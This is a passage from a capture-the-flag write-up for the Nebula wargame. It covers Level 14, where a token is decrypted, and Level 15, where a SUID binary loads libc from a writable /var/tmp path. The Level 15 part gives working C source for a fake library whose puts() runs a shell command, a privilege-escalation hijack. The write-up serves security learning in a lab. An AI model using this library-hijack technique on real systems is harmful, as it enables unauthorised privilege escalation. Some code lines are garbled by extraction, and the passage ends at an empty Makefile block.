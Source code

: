 ```python
print "".join(out)
```
I've  'deciphered' the token:
```bash
$ python dec.py `cat /home/flag14/token`
8457c118-887c-4e40-a5a6-33a25353165
```

## Level 15
This level instructs us to [strace](http://man7.org/linux/man-pages/man1/strace.1.html) the SUID binary corresponding to `flag15`, and links to instructions on [how to compile libraries in Linux](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html) (static, shared, loadable). Doing as suggested, first thing we see is that the program tries to load libc library from a non-standard path in the world-readable `/var/tmp` folder:
```bash
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory).
```

By disassembling the program in GDB, we see it's using the [puts() function](http://www.cplusplus.com/reference/cstdio/puts/) (from glibc) to print some instructions on screen.
```bash
gdb /home/flag15/flag15
(gdb) disas main
. . .https://github.com/livz/nebula-x/tree/master/level15
0x08048340 <+16>:    call   0x8048300 <puts@plt>
```

So we will create a fake library in the path above, where the program searches for libraries, containing this puts() function, but with our code. We we'll also need a _`Makefile`_ for easier compilation and a _`version script`_ file. **_It is important to link in libc static library when compiling our fake library_**, to get access to system calls (**-Bstatic, -static** options from below). All the files mentioned are also [here](https://github.com/livz/nebula-x/tree/master/level15). The fake library source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys syscall.h="">
 
// .. to avoid symbol undefined errors
void __cxa_finalize(void * d) {
}
 
int puts(const char *s) {
 system("/bin/getflag > /tmp/out15");
  
 return 0;
}
 
// libc wrapper to call main
int __libc_start_main(int (*main) (int, char **, char **), 
 int argc, 
 char **argv, 
 void (*init) (void), 
 void (*fini) (void), 
 void (*rtld_fini) (void), 
 void (* stack_end)
) {
 main(argc, argv, NULL);
  
 return 0;
}
```
And the `Makefile`: 
```bash
```